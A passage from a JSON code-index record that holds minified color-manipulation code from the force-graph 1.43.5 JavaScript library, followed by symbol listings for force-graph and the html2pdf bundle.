e=ii(t).toHsv(),r=e.h,i=e.s,o=e.v,a=[],u=1/n;n--;)a.push(ii({h:r,s:i,v:o})),o=(o+u)%1;return a}ii.prototype={isDark:function(){return this.getBrightness()<128},isLight:function(){return!this.isDark()},isValid:function(){return this._ok},getOriginalInput:function(){return this._originalInput},getFormat:function(){return this._format},getAlpha:function(){return this._a},getBrightness:function(){var t=this.toRgb();return(299*t.r+587*t.g+114*t.b)/1e3},getLuminance:function(){var t,n,e,r=this.toRgb();return t=r.r/255,n=r.g/255,e=r.b/255,.2126*(t<=.03928?t/12.92:Math.pow((t+.055)/1.055,2.4))+.7152*(n<=.03928?n/12.92:Math.pow((n+.055)/1.055,2.4))+.0722*(e<=.03928?e/12.92:Math.pow((e+.055)/1.055,2.4))},setAlpha:function(t){return this._a=ki(t),this._roundA=Math.round(100*this._a)/100,this},toHsv:function(){var t=ai(this._r,this._g,this._b);return{h:360*t.h,s:t.s,v:t.v,a:this._a}},toHsvString:function(){var t=ai(this._r,this._g,this._b),n=Math.round(360*t.h),e=Math.round(100*t.s),r=Math.round(100*t.v);return 1==this._a?\"hsv(\"+n+\", \"+e+\"%, \"+r+\"%)\":\"hsva(\"+n+\", \"+e+\"%, \"+r+\"%, \"+this._roundA+\")\"},toHsl:function(){var t=oi(this._r,this._g,this._b);return{h:360*t.h,s:t.s,l:t.l,a:this._a}},toHslString:function(){var t=oi(this._r,this._g,this._b),n=Math.round(360*t.h),e=Math.round(100*t.s),r=Math.round(100*t.l);return 1==this._a?\"hsl(\"+n+\", \"+e+\"%, \"+r+\"%)\":\"hsla(\"+n+\", \"+e+\"%, \"+r+\"%, \"+this._roundA+\")\"},toHex:function(t){return ui(this._r,this._g,this._b,t)},toHexString:function(t){return\"#\"+this.toHex(t)},toHex8:function(t){return function(t,n,e,r,i){var o=[Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16)),Si(Ei(r))];if(i&&o[0].charAt(0)==o[0].charAt(1)&&o[1].charAt(0)==o[1].charAt(1)&&o[2].charAt(0)==o[2].charAt(1)&&o[3].charAt(0)==o[3].charAt(1))return o[0].charAt(0)+o[1].charAt(0)+o[2].charAt(0)+o[3].charAt(0);return o.join(\"\")}(this._r,this._g,this._b,this._a,t)},toHex8String:function(t){return\"#\"+this.toHex8(t)},toRgb:function(){return{r:Math.round(this._r),g:Math.round(this._g),b:Math.round(this._b),a:this._a}},toRgbString:function(){return 1==this._a?\"rgb(\"+Math.round(this._r)+\", \"+Math.round(this._g)+\", \"+Math.round(this._b)+\")\":\"rgba(\"+Math.round(this._r)+\", \"+Math.round(this._g)+\", \"+Math.round(this._b)+\", \"+this._roundA+\")\"},toPercentageRgb:function(){return{r:Math.round(100*Mi(this._r,255))+\"%\",g:Math.round(100*Mi(this._g,255))+\"%\",b:Math.round(100*Mi(this._b,255))+\"%\",a:this._a}},toPercentageRgbString:function(){return 1==this._a?\"rgb(\"+Math.round(100*Mi(this._r,255))+\"%, \"+Math.round(100*Mi(this._g,255))+\"%, \"+Math.round(100*Mi(this._b,255))+\"%)\":\"rgba(\"+Math.round(100*Mi(this._r,255))+\"%, \"+Math.round(100*Mi(this._g,255))+\"%, \"+Math.round(100*Mi(this._b,255))+\"%, \"+this._roundA+\")\"},toName:function(){return 0===this._a?\"transparent\":!(this._a<1)&&(wi[ui(this._r,this._g,this._b,!0)]||!1)},toFilter:function(t){var n=\"#\"+si(this._r,this._g,this._b,this._a),e=n,r=this._gradientType?\"GradientType = 1, \":\"\";if(t){var i=ii(t);e=\"#\"+si(i._r,i._g,i._b,i._a)}return\"progid:DXImageTransform.Microsoft.gradient(\"+r+\"startColorstr=\"+n+\",endColorstr=\"+e+\")\"},toString:function(t){var n=!!t;t=t||this._format;var e=!1,r=this._a<1&&this._a>=0;return n||!r||\"hex\"!==t&&\"hex6\"!==t&&\"hex3\"!==t&&\"hex4\"!==t&&\"hex8\"!==t&&\"name\"!==t?(\"rgb\"===t&&(e=this.toRgbString()),\"prgb\"===t&&(e=this.toPercentageRgbString()),\"hex\"!==t&&\"hex6\"!==t||(e=this.toHexString()),\"hex3\"===t&&(e=this.toHexString(!0)),\"hex4\"===t&&(e=this.toHex8String(!0)),\"hex8\"===t&&(e=this.toHex8String()),\"name\"===t&&(e=this.toName()),\"hsl\"===t&&(e=this.toHslString()),\"hsv\"===t&&(e=this.toHsvString()),e||this.toHexString()):\"name\"===t&&0===this._a?this.toName():this.toRgbString()},clone:function(){return ii(this.toString())},_applyModification:function(t,n){var e=t.apply(null,[this].concat([].slice.call(n)));return this._r=e._r,this._g=e._g,this._b=e._b,this.setAlpha(e._a),this},lighten:function(){return this._applyModification(fi,arguments)},brighten:function(){return this._applyModification(di,arguments)},darken:function(){return this._applyModification(pi,arguments)},desaturate:function(){return this._applyModification(li,arguments)},saturate:function(){return this._applyModification(ci,arguments)},greyscale:function(){return this._applyModification(hi,arguments)},spin:function(){return this._applyModification(gi,arguments)},_applyCombination:function(t,n){return t.apply(null,[this].concat([].slice.call(n)))},analogous:function(){return this._applyCombination(mi,arguments)},complement:function(){return this._applyCombination(yi,arguments)},monochromatic:function(){return this._applyCombination(xi,arguments)},splitcomplement:function(){return this._applyCombination(_i,arguments)},triad:function(){return this._applyCombination(vi,[3])},tetrad:function(){return this._applyCombination(vi,[4])}},ii.fromRatio=function(t,n){if(\"object\"==ni(t)){var e={};for(var r in t)t.hasOwnProperty(r)&&(e[r]=\"a\"===r?t[r]:Ci(t[r]));t=e}return ii(t,n)},ii.equals=function(t,n){return!(!t||!n)&&ii(t).toRgbString()==ii(n).toRgbString()},ii.random=function(){return ii.fromRatio({r:Math.random(),g:Math.random(),b:Math.random()})},ii.mix=function(t,n,e){e=0===e?0:e||50;var r=ii(t).toRgb(),i=ii(n).toRgb(),o=e/100;return ii({r:(i.r-r.r)*o+r.r,g:(i.g-r.g)*o+r.g,b:(i.b-r.b)*o+r.b,a:(i.a-r.a)*o+r.a})},", "id": "static/js/force-graph-1.43.5.min.js", "kind": "module", "label": "force-graph-1.43.5.min.js", "language": "js", "sha256": "661048b860bc7704", "symbol_count": 31, "symbols": [{"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "t"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "h"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "u"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "y"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "l"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "b"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "h"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "s"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "f"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "i"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "Cn"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "Tr"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "o"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "ti"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "Fi"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "r"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "sa"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "ha"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "v"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "o"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "c"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "class", "line": 2, "name": "or"}, {"doc": "Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph", "kind": "class", "line": 2, "name": "as"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "as"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Ho"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Jo"}]}, {"id": "static/js/html2pdf.bundle.min.js", "kind": "module", "label": "html2pdf.bundle.min.js", "language": "js", "sha256": "bc11d8bf4a340449", "symbol_count": 738, "symbols": [{"kind": "function", "line": 14, "name": "commonjsRequire"}, {"kind": "function", "line": 18, "name": "unwrapExports"}, {"kind": "function", "line": 22, "name": "createCommonjsModule"}, {"doc": "3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.", "kind": "function", "line": 201, "name": "o"}, {"kind": "function", "line": 244, "name": "sliceIterator"}, {"kind": "function", "line": 246, "name": "defineProperties"}, {"kind": "function", "line": 248, "name": "_classCallCheck"}, {"kind": "function", "line": 251, "name": "hex3"}, {"kind": "function", "line": 260, "name": "hex6"}, {"kind": "function", "line": 269, "name": "rgb"}, {"kind": "function", "line": 278, "name": "rgba"}, {"kind": "function", "line": 286, "name": "fromArray"}, {"kind": "function", "line": 290, "name": "namedColor"}, {"kind": "function", "line": 296, "name": "Color"}, {"kind": "function", "line": 314, "name": "isTransparent"}, {"kind": "function", "line": 319, "name": "toString"}, {"kind": "function", "line": 498, "name": "_interopRequireDefault"}, {"kind": "function", "line": 519, "name": "parseLine"}, {"kind": "function", "line": 531, "name": "parseTextDecorationLine"}, {"kind": "function", "line": 539, "name": "parseTextDecorationStyle"}, {"kind": "function", "line": 553, "name": "parseTextDecoration"}, {"kind": "function", "line": 581, "name": "defineProperties"}, {"kind": "function", "line": 587, "name": "_classCallCheck"}, {"kind": "function", "line": 589, "name": "addColorStops"}, {"kind": "function", "line": 600, "name": "CanvasRenderer"}, {"kind": "function", "line": 608, "name": "render"}, {"kind": "function", "line": 623, "name": "clip"}, {"kind": "function", "line": 642, "name": "drawImage"}, {"kind": "function", "line": 647, "name": "drawShape"}, {"kind": "function", "line": 654, "name": "fill"}, {"kind": "function", "line": 660, "name": "getTarget"}, {"kind": "function", "line": 666, "name": "path"}, {"kind": "function", "line": 691, "name": "rectangle"}, {"kind": "function", "line": 697, "name": "renderLinearGradient"}, {"kind": "function", "line": 706, "name": "renderRadialGradient"}, {"kind": "function", "line": 736, "name": "renderRepeat"}, {"kind": "function", "line": 745, "name": "renderTextNode"}, {"kind": "function", "line": 795, "name": "resizeImage"}, {"kind": "function", "line": 809, "name": "setOpacity"}, {"kind": "function", "line": 814, "name": "transform"}, {"kind": "function", "line": 839, "name": "defineProperties"}, {"kind": "function", "line": 841, "name": "_classCallCheck"}, {"kind": "function", "line": 844, "name": "Logger"}, {"kind": "function", "line": 854, "name": "child"}, {"kind": "function", "line": 862, "name": "log"}, {"kind": "function", "line": 876, "name": "error"}, {"kind": "function", "line": 899, "name": "contains"}, {"kind": "function", "line": 903, "name": "distance"}, {"kind": "function", "line": 907, "name": "copyCSSStyles"}, {"kind": "function", "line": 934, "name": "defineProperties"}, {"kind": "function", "line": 940, "name": "_interopRequireDefault"}, {"kind": "function", "line": 942, "name": "_classCallCheck"}, {"kind": "function", "line": 950, "name": "Length"}, {"kind": "function", "line": 960, "name": "isPercentage"}, {"kind": "function", "line": 965, "name": "getAbsoluteValue"}, {"kind": "function", "line": 970, "name": "create"}, {"kind": "function", "line": 981, "name": "getRootFontSize"}, {"kind": "function", "line": 986, "name": "calculateLengthFromValueWithUnit"}, {"kind": "function", "line": 1012, "name": "_classCallCheck"}, {"kind": "function", "line": 1014, "name": "Size"}, {"kind": "function", "line": 1033, "name": "_classCallCheck"}, {"kind": "function", "line": 1035, "name": "Vector"}, {"kind": "function", "line": 1054, "name": "defineProperties"}, {"kind": "function", "line": 1062, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1064, "name": "_classCallCheck"}, {"kind": "function", "line": 1066, "name": "lerp"}, {"kind": "function", "line": 1071, "name": "BezierCurve"}, {"kind": "function", "line": 1083, "name": "subdivide"}, {"kind": "function", "line": 1094, "name": "reverse"}, {"kind": "function", "line": 1113, "name": "defineProperties"}, {"kind": "function", "line": 1123, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1125, "name": "_classCallCheck"}, {"kind": "function", "line": 1136, "name": "Bounds"}, {"kind": "function", "line": 1147, "name": "fromClientRect"}, {"kind": "function", "line": 1155, "name": "parseBounds"}, {"kind": "function", "line": 1159, "name": "calculatePaddingBox"}, {"kind": "function", "line": 1163, "name": "calculateContentBox"}, {"kind": "function", "line": 1173, "name": "parseDocumentSize"}, {"kind": "function", "line": 1187, "name": "parsePathForBorder"}, {"kind": "function", "line": 1201, "name": "createPathFromCurves"}, {"kind": "function", "line": 1230, "name": "calculateBorderBoxPath"}, {"kind": "function", "line": 1234, "name": "calculatePaddingBoxPath"}, {"kind": "function", "line": 1238, "name": "parseBoundCurves"}, {"kind": "function", "line": 1290, "name": "getCurvePoints"}, {"kind": "function", "line": 1332, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1343, "name": "parsePadding"}, {"kind": "function", "line": 1380, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1382, "name": "_classCallCheck"}, {"kind": "function", "line": 1408, "name": "BackgroundSize"}, {"kind": "function", "line": 1426, "name": "calculateBackgroundSize"}, {"kind": "function", "line": 1455, "name": "calculateGradientBackgroundSize"}, {"kind": "function", "line": 1465, "name": "calculateBackgroungPaintingArea"}, {"kind": "function", "line": 1475, "name": "calculateBackgroungPositioningArea"}, {"kind": "function", "line": 1493, "name": "calculateBackgroundPosition"}, {"kind": "function", "line": 1497, "name": "calculateBackgroundRepeatPath"}, {"kind": "function", "line": 1511, "name": "parseBackground"}, {"kind": "function", "line": 1520, "name": "parseBackgroundClip"}, {"kind": "function", "line": 1530, "name": "parseBackgroundOrigin"}, {"kind": "function", "line": 1540, "name": "parseBackgroundRepeat"}, {"kind": "function", "line": 1557, "name": "parseBackgroundImages"}, {"kind": "function", "line": 1582, "name": "parseBackgroundSize"}, {"kind": "function", "line": 1586, "name": "parseBackgoundPosition"}, {"kind": "function", "line": 1600, "name": "parseBackgroundImage"}, {"kind": "function", "line": 1611, "name": "appendResult"}, {"kind": "function", "line": 1728, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1746, "name": "parseBorderStyle"}, {"kind": "function", "line": 1754, "name": "parseBorder"}, {"kind": "function", "line": 1779, "name": "sliceIterator"}, {"kind": "function", "line": 1785, "name": "_interopRequireDefault"}, {"kind": "function", "line": 1789, "name": "parseBorderRadius"}, {"kind": "function", "line": 1843, "name": "parseDisplayValue"}, {"kind": "function", "line": 1908, "name": "setDisplayBit"}, {"kind": "function", "line": 1912, "name": "parseDisplay"}, {"kind": "function", "line": 1933, "name": "parseCSSFloat"}, {"kind": "function", "line": 1958, "name": "parseFontWeight"}, {"kind": "function", "line": 1970, "name": "parseFont"}, {"kind": "function", "line": 1994, "name": "parseLetterSpacing"}, {"kind": "function", "line": 2015, "name": "parseLineBreak"}, {"kind": "function", "line": 2100, "name": "parseListStyleType"}, {"kind": "function", "line": 2214, "name": "parseListStyle"}, {"kind": "function", "line": 2223, "name": "parseListStylePosition"}, {"kind": "function", "line": 2250, "name": "_interopRequireDefault"}, {"kind": "function", "line": 2254, "name": "parseMargin"}, {"kind": "function", "line": 2275, "name": "parseOverflow"}, {"kind": "function", "line": 2303, "name": "parseOverflowWrap"}, {"kind": "function", "line": 2330, "name": "parsePosition"}, {"kind": "function", "line": 2360, "name": "_interopRequireDefault"}, {"kind": "function", "line": 2364, "name": "parseTextShadow"}, {"kind": "function", "line": 2376, "name": "appendValue"}, {"kind": "function", "line": 2388, "name": "appendShadow"}, {"kind": "function", "line": 2460, "name": "parseTextTransform"}, {"kind": "function", "line": 2488, "name": "_interopRequireDefault"}, {"kind": "function", "line": 2490, "name": "toFloat"}, {"kind": "function", "line": 2496, "name": "parseTransform"}, {"doc": "$FlowFixMe", "kind": "function", "line": 2517, "name": "parseTransformOrigin"}, {"doc": "$FlowFixMe", "kind": "function", "line": 2527, "name": "parseTransformMatrix"}, {"kind": "function", "line": 2559, "name": "parseVisibility"}, {"kind": "function", "line": 2586, "name": "parseWordBreak"}, {"kind": "function", "line": 2607, "name": "parseZIndex"}, {"kind": "function", "line": 2624, "name": "defineProperties"}, {"kind": "function", "line": 2626, "name": "_classCallCheck"}, {"kind": "function", "line": 2629, "name": "ForeignObjectRenderer"}, {"kind": "function", "line": 2637, "name": "render"}, {"kind": "function", "line": 2667, "name": "createForeignObjectSVG"}, {"kind": "function", "line": 2686, "name": "loadSerializedSVG"}, {"kind": "function", "line": 2710, "name": "testRangeBounds"}, {"doc": "iOS 10.3 taints canvas with base64 images unless crossOrigin = 'anonymous'", "kind": "function", "line": 2735, "name": "testBase64"}, {"kind": "function", "line": 2744, "name": "onload"}, {"kind": "function", "line": 2768, "name": "testCORS"}, {"kind": "function", "line": 2772, "name": "testResponseType"}, {"kind": "function", "line": 2776, "name": "testSVG"}, {"kind": "function", "line": 2791, "name": "isGreenPixel"}, {"kind": "function", "line": 2795, "name": "testForeignObject"}, {"kind": "function", "line": 2848, "name": "value"}, {"kind": "function", "line": 2889, "name": "toCodePoints"}, {"kind": "function", "line": 2910, "name": "fromCodePoint"}, {"kind": "function", "line": 2948, "name": "decode"}, {"kind": "function", "line": 2982, "name": "polyUint16Array"}, {"kind": "function", "line": 2991, "name": "polyUint32Array"}, {"kind": "function", "line": 3014, "name": "defineProperties"}, {"kind": "function", "line": 3018, "name": "_classCallCheck"}, {"kind": "function", "line": 3087, "name": "createTrieFromBase64"}, {"kind": "function", "line": 3100, "name": "Trie"}, {"kind": "function", "line": 3121, "name": "get"}, {"kind": "function", "line": 3195, "name": "defineProperties"}, {"kind": "function", "line": 3197, "name": "sliceIterator"}, {"kind": "function", "line": 3207, "name": "_interopRequireDefault"}, {"kind": "function", "line": 3209, "name": "_toConsumableArray"}, {"kind": "function", "line": 3211, "name": "_classCallCheck"}, {"kind": "function", "line": 3323, "name": "codePointsToCharacterClasses"}, {"kind": "function", "line": 3395, "name": "isAdjacentWithSpaceIgnored"}, {"kind": "function", "line": 3444, "name": "previousNonSpaceClassType"}, {"kind": "function", "line": 3457, "name": "_lineBreakAtIndex"}, {"kind": "function", "line": 3686, "name": "lineBreakAtIndex"}, {"kind": "function", "line": 3705, "name": "cssFormattedClasses"}, {"kind": "function", "line": 3729, "name": "inlineBreakOpportunities"}, {"kind": "function", "line": 3747, "name": "Break"}, {"kind": "function", "line": 3758, "name": "slice"}, {"kind": "function", "line": 3766, "name": "LineBreaker"}, {"kind": "function", "line": 3780, "name": "next"}, {"kind": "function", "line": 3820, "name": "get"}, {"kind": "function", "line": 3826, "name": "get"}, {"kind": "function", "line": 3835, "name": "get"}, {"kind": "function", "line": 3853, "name": "get"}, {"kind": "function", "line": 3859, "name": "get"}, {"kind": "function", "line": 3870, "name": "_interopRequireDefault"}, {"kind": "function", "line": 3872, "name": "breakWords"}, {"kind": "function", "line": 3910, "name": "_interopRequireDefault"}, {"kind": "function", "line": 3912, "name": "_classCallCheck"}, {"kind": "function", "line": 3914, "name": "TextBounds"}, {"kind": "function", "line": 3921, "name": "parseTextBounds"}, {"kind": "function", "line": 3950, "name": "getWrapperBounds"}, {"kind": "function", "line": 3965, "name": "getRangeBounds"}, {"kind": "function", "line": 3982, "name": "defineProperties"}, {"kind": "function", "line": 3988, "name": "_classCallCheck"}, {"kind": "function", "line": 3991, "name": "TextContainer"}, {"kind": "function", "line": 4001, "name": "fromTextNode"}, {"kind": "function", "line": 4015, "name": "transform"}, {"kind": "function", "line": 4028, "name": "capitalize"}, {"kind": "function", "line": 4046, "name": "_classCallCheck"}, {"kind": "function", "line": 4048, "name": "Circle"}, {"kind": "function", "line": 4099, "name": "_interopRequireDefault"}, {"kind": "function", "line": 4125, "name": "getInputBorderRadius"}, {"kind": "function", "line": 4129, "name": "inlineInputElement"}, {"kind": "function", "line": 4140, "name": "inlineTextAreaElement"}, {"kind": "function", "line": 4144, "name": "inlineSelectElement"}, {"kind": "function", "line": 4149, "name": "reformatInputBounds"}, {"kind": "function", "line": 4160, "name": "inlineFormElement"}, {"kind": "function", "line": 4179, "name": "getInputValue"}, {"kind": "function", "line": 4216, "name": "_interopRequireDefault"}, {"kind": "function", "line": 4223, "name": "getListOwner"}, {"kind": "function", "line": 4240, "name": "inlineListItemElement"}, {"kind": "function", "line": 4326, "name": "createAdditiveCounter"}, {"kind": "function", "line": 4340, "name": "createCounterStyleWithSymbolResolver"}, {"kind": "function", "line": 4354, "name": "createCounterStyleFromRange"}, {"kind": "function", "line": 4362, "name": "createCounterStyleFromSymbols"}, {"kind": "function", "line": 4376, "name": "createCJKCounter"}, {"kind": "function", "line": 4408, "name": "createCounterText"}, {"kind": "function", "line": 4524, "name": "defineProperties"}, {"kind": "function", "line": 4580, "name": "_interopRequireDefault"}, {"kind": "function", "line": 4582, "name": "_classCallCheck"}, {"kind": "function", "line": 4587, "name": "NodeContainer"}, {"kind": "function", "line": 4666, "name": "getClipPaths"}, {"kind": "function", "line": 4674, "name": "isInFlow"}, {"kind": "function", "line": 4679, "name": "isVisible"}, {"kind": "function", "line": 4684, "name": "isAbsolutelyPositioned"}, {"kind": "function", "line": 4689, "name": "isPositioned"}, {"kind": "function", "line": 4694, "name": "isFloating"}, {"kind": "function", "line": 4699, "name": "isRootElement"}, {"kind": "function", "line": 4704, "name": "isTransformed"}, {"kind": "function", "line": 4709, "name": "isPositionedWithZIndex"}, {"kind": "function", "line": 4714, "name": "isInlineLevel"}, {"kind": "function", "line": 4719, "name": "isInlineBlockOrInlineTable"}, {"kind": "function", "line": 4730, "name": "getImage"}, {"kind": "function", "line": 4763, "name": "defineProperties"}, {"kind": "function", "line": 4771, "name": "_interopRequireDefault"}, {"kind": "function", "line": 4773, "name": "_classCallCheck"}, {"kind": "function", "line": 4776, "name": "StackingContext"}, {"kind": "function", "line": 4788, "name": "getOpacity"}, {"kind": "function", "line": 4793, "name": "getRealParentStackingContext"}, {"kind": "function", "line": 4830, "name": "_interopRequireDefault"}, {"kind": "function", "line": 4832, "name": "NodeParser"}, {"kind": "function", "line": 4845, "name": "parseNodeTree"}, {"kind": "function", "line": 4905, "name": "createsRealStackingContext"}, {"kind": "function", "line": 4909, "name": "createsStackingContext"}, {"kind": "function", "line": 4913, "name": "isBodyWithTransparentRoot"}, {"kind": "function", "line": 4927, "name": "defineProperties"}, {"kind": "function", "line": 4931, "name": "_classCallCheck"}, {"kind": "function", "line": 4936, "name": "FontMetrics"}, {"kind": "function", "line": 4945, "name": "_parseMetrics"}, {"kind": "function", "line": 4995, "name": "getMetrics"}, {"kind": "function", "line": 5018, "name": "parseAngle"}, {"kind": "function", "line": 5048, "name": "sliceIterator"}, {"kind": "function", "line": 5066, "name": "_interopRequireDefault"}, {"kind": "function", "line": 5068, "name": "_classCallCheck"}, {"kind": "function", "line": 5094, "name": "LinearGradient"}, {"kind": "function", "line": 5102, "name": "RadialGradient"}, {"kind": "function", "line": 5112, "name": "parseGradient"}, {"kind": "function", "line": 5129, "name": "parseColorStops"}, {"kind": "function", "line": 5178, "name": "parseLinearGradient"}, {"kind": "function", "line": 5193, "name": "parseRadialGradient"}, {"kind": "function", "line": 5234, "name": "calculateGradientDirection"}, {"kind": "function", "line": 5250, "name": "parseTopRight"}, {"kind": "function", "line": 5254, "name": "parseSideOrCorner"}, {"kind": "function", "line": 5292, "name": "parsePercentageAngle"}, {"kind": "function", "line": 5303, "name": "findCorner"}, {"kind": "function", "line": 5323, "name": "calculateRadius"}, {"kind": "function", "line": 5392, "name": "transformWebkitRadialGradientArgs"}, {"kind": "function", "line": 5465, "name": "transformObsoleteColorStops"}, {"kind": "function", "line": 5503, "name": "sliceIterator"}, {"kind": "function", "line": 5505, "name": "defineProperties"}, {"kind": "function", "line": 5521, "name": "_interopRequireDefault"}, {"kind": "function", "line": 5523, "name": "_classCallCheck"}, {"kind": "function", "line": 5526, "name": "Renderer"}, {"kind": "function", "line": 5536, "name": "renderNode"}, {"kind": "function", "line": 5544, "name": "renderNodeContent"}, {"kind": "function", "line": 5547, "name": "callback"}, {"kind": "function", "line": 5582, "name": "renderNodeBackgroundAndBorders"}, {"kind": "function", "line": 5591, "name": "callback"}, {"kind": "function", "line": 5622, "name": "renderBackgroundImage"}, {"kind": "function", "line": 5635, "name": "renderBackgroundRepeat"}, {"kind": "function", "line": 5650, "name": "renderBackgroundGradient"}, {"kind": "function", "line": 5672, "name": "renderBorder"}, {"kind": "function", "line": 5677, "name": "renderStack"}, {"kind": "function", "line": 5699, "name": "renderStackContent"}, {"kind": "function", "line": 5748, "name": "render"}, {"kind": "function", "line": 5764, "name": "splitDescendants"}, {"kind": "function", "line": 5780, "name": "splitStackingContexts"}, {"kind": "function", "line": 5808, "name": "sortByZIndex"}, {"kind": "function", "line": 5831, "name": "_interopRequireDefault"}, {"kind": "function", "line": 5833, "name": "Proxy"}, {"kind": "function", "line": 5896, "name": "defineProperties"}, {"kind": 